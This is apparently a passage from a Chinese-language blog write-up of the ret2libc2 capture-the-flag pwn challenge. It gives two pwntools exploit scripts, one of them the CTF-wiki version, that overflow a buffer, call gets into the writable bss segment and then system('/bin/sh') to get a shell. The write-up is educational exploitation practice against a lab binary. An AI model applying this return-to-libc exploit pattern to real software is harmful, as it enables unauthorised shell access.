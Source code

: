 
<img src="https://i-blog.csdnimg.cn/blog_migrate/071c7f05dd1ce1f055e35762a65122da.png" alt="" style="max-height:88px; box-sizing:content-box;" />


第三个就是bss段的地址区 发现可以写入的

开始编写exp

### exp

```cobol
from pwn import *
p=process('./ret2libc2')
get_add=0x08048460
sys_add=0x08048490
buf2_add=0x0804A080
payload=flat([b'A'*112,get_add,sys_add,buf2_add,buf2_add])
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ca611fc1a65d586ae834a0ff94b3f2bd.png" alt="" style="max-height:552px; box-sizing:content-box;" />


这里再次给出wiki的payload的解读流程图

```cobol
##!/usr/bin/env python
from pwn import *
 
sh = process('./ret2libc2')
 
gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/9a5e709c1fb701bcb45f89ea9439233d.png" alt="" style="max-height:712px; box-sizing:content-box;" />


再给出函数的执行流程 防止混乱



<img src="https://i-blog.csdnimg.cn/blog_migrate/99ef67bd9c95dbb7df428c4e7982fce1.png" alt="" style="max-height:588px; box-sizing:content-box;" />
